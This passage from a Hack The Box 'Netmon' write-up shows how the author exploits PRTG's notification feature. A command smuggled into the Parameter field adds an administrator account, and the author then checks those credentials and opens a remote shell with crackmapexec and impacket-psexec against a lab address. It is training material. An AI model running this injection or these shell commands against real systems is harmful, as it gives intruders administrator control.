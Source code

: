 
As I already have an idea of how the exploitation of the vulnerability is performed, I will focus my attention on the function in charge of creating a user (I deduce that in the compromised system). So I'm going to decode the code again with **[CyberChef](https://gchq.github.io/CyberChef/){:target="_blank"}**, and find the names of the parameters that are linked to the fields of the form to create a notification, most likely. I analyze the source code in the browser and if they correspond to what I found in the exploit, it's time to try the attack. I just have to create a new **Notification**, and select the type of file to be generated (***Program File*** field) and the malicious command in the ***Parameter*** field, then save and I can observe the created notification.

```bash
http://10.10.10.152/welcome.htm
# - Program File: Demo EXE Notification - OutFile.ps1   (combobox)
# - C:\Users\Public\tester.txt;net user old_b0y oldboy123!$ /add; net localgroup Administrators old_b0y /add
```

<br />
<img src="{{ site.img_path }}/netmon_writeup/Netmon_31.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/netmon_writeup/Netmon_32.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/netmon_writeup/Netmon_33.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/netmon_writeup/Netmon_34.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/netmon_writeup/Netmon_35.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/netmon_writeup/Netmon_36.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

The next step is to send the notification and the software informs me that the notification has been triggered and is in the queue. From my machine I can corroborate with `crackmapexec` if the account already exists in the system, and yes it was created, it also informs me that the account could allow me to access through **WinRM**. As port **5985** of the WinRM protocol is enabled I try to connect with `evil-winrm` but I have no problems to do it so I resort to `impacket-psexec` and this time I succeed. I can now access both flags to enter the **[Hack The Box](https://www.hackthebox.com){:target="_blank"}** platform, machine finished.

> **[PsExec](https://www.silverfort.com/glossary/psexec/){:target="_blank"}** is a command-line tool that allows users to run programs on remote systems. It can be used to execute remote commands, scripts, and applications on remote systems, as well as to launch GUI-based applications on remote systems.

> **Attacker Machine**:

```bash
crackmapexec smb 10.10.10.152 -u old_b0y -p 'oldboy123!$'
# :)
cat ../nmap/targeted | grep 5985
crackmapexec winrm 10.10.10.152 -u old_b0y -p 'oldboy123!$'
# :)
evil-winrm -i 10.10.10.152 -u old_b0y -p oldboy123'oldboy123!$'
# :(

impacket-psexec WORKGROUP/old_b0y@10.10.10.152 cmd.exe
```
